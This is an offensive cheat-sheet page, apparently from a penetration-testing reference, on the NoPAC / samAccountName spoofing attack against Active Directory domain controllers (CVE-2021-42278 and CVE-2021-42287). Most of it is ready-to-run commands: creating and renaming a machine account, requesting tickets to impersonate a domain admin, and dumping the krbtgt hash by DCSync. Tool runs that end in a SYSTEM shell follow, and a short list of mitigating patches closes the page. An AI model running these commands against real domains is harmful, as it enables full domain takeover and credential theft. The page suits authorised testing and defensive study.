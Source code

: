 # NoPAC / samAccountName Spoofing

> During S4U2Self, the KDC will try to append a '\$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '\$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC\$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a ST to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.

**Requirements**

* MachineAccountQuota > 0

**Check for exploitation**

0. Check the MachineAccountQuota of the account
  ```powershell
  netexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
  StandIn.exe --object ms-DS-MachineAccountQuota=*
  ```
1. Check if the DC is vulnerable
  ```powershell
  netexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  ```

**Exploitation**

0. Create a computer account
    ```powershell
    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

    powermad@windows> . .\Powermad.ps1
    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
    ```
1. Clear the controlled machine account `servicePrincipalName` attribute
    ```ps1
    impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

    powershell@windows> . .\Powerview.ps1
    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
    ```
2. (CVE-2021-42278) Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$`
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1224
    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
    ```
3. Request a TGT for the controlled machine account
    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```
4. Reset the controlled machine account sAMAccountName to its old value 
    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```
5. (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```
6. DCSync: `KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`

Automated exploitation:

* [cube0x0/noPac](https://github.com/cube0x0/noPac) - Windows
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
* [Ridter/noPac](https://github.com/Ridter/noPac) - Linux
  ```ps1
  python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
  ```
* [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
    ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
* [ly4k/Pachine](https://github.com/ly4k/Pachine)
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache
    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```

**Mitigations**:

* [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
* [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
* [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
* [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
* [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
* [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)


## References

* [sAMAccountName spoofing - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)